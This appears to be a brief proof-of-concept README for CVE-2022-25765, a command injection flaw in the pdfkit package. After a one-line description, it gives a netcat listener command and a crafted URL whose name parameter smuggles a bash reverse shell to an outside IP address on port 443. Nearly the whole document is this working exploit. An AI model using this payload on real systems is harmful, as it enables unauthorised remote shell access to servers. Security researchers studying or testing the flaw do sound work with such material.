 # PDFkit-CMD-Injection / CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

python3 -m http.server 80

nc -lnvp 'Target Port'

http://'TARGET_ADDRESS:Target PORT'//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/443 <&1'`'}
